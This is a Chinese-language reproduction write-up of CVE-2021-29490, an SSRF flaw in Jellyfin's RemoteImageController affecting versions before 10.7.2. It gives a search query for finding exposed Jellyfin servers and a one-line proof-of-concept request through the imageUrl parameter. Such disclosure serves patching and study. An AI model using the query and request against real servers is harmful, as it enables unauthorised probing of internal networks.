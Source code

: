 # Jellyfin RemoteImageController.cs SSRF漏洞 CVE-2021-29490

## 漏洞描述

Jellyfin RemoteImageController.cs 文件中存在SSRF漏洞，通过构造特殊的请求，探测内网信息

## 漏洞影响

```
Jellyfin < 10.7.2
```

## 网络测绘

```
app="Jellyfin"
```

## 漏洞复现

在官方的更新文件中，查找到修改的文件

![](images/202205241459343.png)

官方删除了某个方法

```
function getDisplayUrl(url, apiClient) {
        return apiClient.getUrl('Images/Remote', { imageUrl: url });
    }
```

下载漏洞版本源码，查找该接口对应的文件

```
Jellyfin.Api/Controllers/RemoteImageController.cs
```

![](images/202205241459044.png)

其中接收的参数为 imageUrl ，后续的代码片段存在SSRF漏洞

![](images/202205241459542.png)

构造请求POC

```
/Images/Remote?imageUrl=http://www.baidu.com
```

![](images/202205241459712.png)